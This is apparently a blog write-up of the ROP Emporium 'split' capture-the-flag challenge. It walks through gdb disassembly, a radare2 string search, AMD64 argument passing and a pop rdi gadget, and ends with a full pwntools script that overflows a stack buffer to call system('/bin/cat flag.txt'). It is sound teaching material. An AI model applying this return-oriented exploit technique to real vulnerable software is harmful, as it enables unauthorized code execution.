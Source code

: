 ```yaml
---
title: "Return-Oriented Programming - Split"
date: '2021-12-20'
tags: ['ropemporium','rop', 'pwn']
draft: false
summary: Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain.
layout: PostLayout
canonicalUrl:
---
```


## Introduction
Challenge Description

>The elements that allowed you to complete ret2win are still present, they've just been split apart.
>Find them and recombine them using a short ROP chain

The goal of this challenge is to understand how function arguments are passed in 64bit machine when doing return oriented programming. The target binary can be downloaded from the authors website [ropemporium](https://ropemporium.com). 

First we check the binary protections enabled on the downloaded. Only **NX** (Not executable) is enabled on the device according to `checksec` binary utility as shown in the image below.

```bash
vx@archie:split$ checksec --file=split
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

From analysis of binary we use gdb debugger in order to analyze the functions present in the binary in order to understand the logic. We disassemble **pwnme** function as in the image below.The function looks familiar as for the ret2win function.
```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400810
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x40083c
   0x0000000000400715 <+45>:	mov    eax,0x0
   0x000000000040071a <+50>:	call   0x400570 <printf@plt>
   0x000000000040071f <+55>:	lea    rax,[rbp-0x20]
   0x0000000000400723 <+59>:	mov    edx,0x60
   0x0000000000400728 <+64>:	mov    rsi,rax
   0x000000000040072b <+67>:	mov    edi,0x0
   0x0000000000400730 <+72>:	call   0x400590 <read@plt>
   0x0000000000400735 <+77>:	mov    edi,0x40083f
   0x000000000040073a <+82>:	call   0x400550 <puts@plt>
   0x000000000040073f <+87>:	nop
   0x0000000000400740 <+88>:	leave  
   0x0000000000400741 <+89>:	ret    
End of assembler dump.
(gdb) 
```
From the above code, we are filling  a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values that is present in the memory area specified. The memory region we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the boundary of base pointer address in the stack.

![](/static/images/ropemporium/stack.png)

Next function is **read** function, which reads for user input from the standard input file descriptor and stores in the specified buffer. From disassembled code, we are reading **0x60** bytes from the user input and storing it in our buffer. This means we are reading more than what the buffer can hold therefore leading to a stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);
```
For this challenge we don`t have a ret2win function which we are to return to. From the disassembly of the binary we have an interesting function called **usefulFunction**. The usefulFunction, does listing of the files in the directory when called by the function.

```nasm
(gdb) disas usefulFunction 
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:	push   rbp
   0x0000000000400743 <+1>:	mov    rbp,rsp
   0x0000000000400746 <+4>:	mov    edi,0x40084a
   0x000000000040074b <+9>:	call   0x400560 <system@plt>
   0x0000000000400750 <+14>:	nop
   0x0000000000400751 <+15>:	pop    rbp
   0x0000000000400752 <+16>:	ret    
End of assembler dump.
(gdb) x/s 0x40084a
0x40084a:	"/bin/ls"
(gdb) 
```
Goal is to pass a different string to the system function instead of  **"/bin/ls"**

From the authors hint, we can look for useful hints in the binary using either radare2 or rizin. Both tools perform the same function, it is a matter of choice.

>Now that you've gathered the elements of your exploit you can start to piece them together, you want to call system() with the **"/bin/cat flag.txt"** string as the only argument. You'll also have to start dealing with the differences between the various architectures' calling conventions. 

Opening the binary in radare2, we can use **iz** command to look for strings. The goal is to read the flag from the system.

```nasm
[0x004005b0]> iz
nth paddr      vaddr      len size section type  string                                      
---------------------------------------------------------------------------------------------
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt

```

We have an important string **"/bin/cat flag.txt"** which will enable us to complete our goal. Now we need pass the string to system function as follows **system('/bin/cat flag.txt')**.

For building ropchain, we need to understand the calling conventions of **AMD64 ABI**.The calling convention passes the arguments to the registers in the following order **RDI, RSI, RDX, RCX, R8 and R9**.

Because the system function receives one argument, we need to look for one gadgets that we control the **rdi** address.

**What are gadgets?**
Gadgets are sequence of instructions the end with ret instruction. Because we want to load a value into rdi register, we look for a pop **pop rdi; ret** instruction in order to pass an argument to the system function.

For searching gadget in radare2/rizin, use **/R** command as shown in the image below.

![](/static/images/ropemporium/split_poprdi.png)
Now we need to chain ropchain exploit as shown in the image below.

![ropchain](/static/images/ropemporium/popgadget.png)

The goal is to overwrite the return address with the address of **"pop rdi, ret "** and then call system function. we need to fill the buffer memory with 32bytes, 8 bytes more to overwrite the rbp address and  8 bytes teo overwrite the return address with pop rdi address.

## Exploit
Full exploit of split challenge is;

```python3
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process("./split")

system_addr = pwn.p64(0x400560)   #address of system 
pop_rdi_ret = pwn.p64(0x004007c3)  # pop rdi; ret gadget 
bin_cat_addr = pwn.p64(0x00601060)  #bin cat flag.txt address 

payload = b"A" * 32  #fill the buffer 
payload += b"B" *8   # overwrite  rbp
payload += pop_rdi_ret # pop rdi gadget 
payload += bin_cat_addr # argument passed to the system function
payload += system_addr   #call system 

io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running the above code we get a flag.

![](/static/images/ropemporium/split_flag.png)

>**To avoid the segmentation fault of the above, we can overwrite the rbp address with exit function address in order to exit without segfault.**
